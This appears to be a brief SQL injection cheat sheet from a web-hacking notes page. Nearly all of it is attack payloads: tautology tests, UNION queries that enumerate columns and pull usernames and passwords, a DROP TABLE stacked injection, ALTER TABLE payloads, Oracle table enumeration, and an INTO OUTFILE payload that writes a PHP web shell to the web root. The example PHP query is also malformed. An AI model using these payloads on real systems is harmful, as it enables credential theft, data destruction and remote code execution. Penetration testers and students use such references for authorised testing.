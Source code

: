 # SQL Injection

[HOME](../index.html) / [Web](./)

## The basics

How an example of unsecure sql statement looks like:

```
$SQL = "SELECT * FROM {tablename} WHERE {username} = ' + $_POST["username"] + ' AND ' + $_POST['password']'";
```

To break the statement:

```
$SQL = "SELECT * FROM {tablename} WHERE {username} = ' + 1' OR 1+1-- + ' AND ' + $_POST['password']'";
```

Order by:

```
=1 order by 1
=1 order by 2
=1 order by 3
.
.
.
Until error occurs, then:
=1 union all select 1, 2, 3...
=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
=1 union all select 1, username, password from users
```

### Simple SQL injection test

```
'
1' OR 1+1--
\'
```

### Stacked injection; Where table name is known

```
1'; DROP TABLE {tablename} --
```

### Where column name is known

```
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```

\


## Blind injection

Apply in URL

```
www.example.com/xxx.php?id=1 or 1=1
```

## RCE with UNION

```
123' UNION SELECT '<?php echo system("ls -la /");?>','2','3','4','5' into outfile '/var/www/html/shell.php'#
```

## Oracle DB

```
' UNION SELECT table_name,null,null FROM all_tables--
' UNION SELECT  column_name,null,null FROM all_tab_columns WHERE table_name=''--
' UNION SELECT [col1],[col2],null FROM [table]--
```
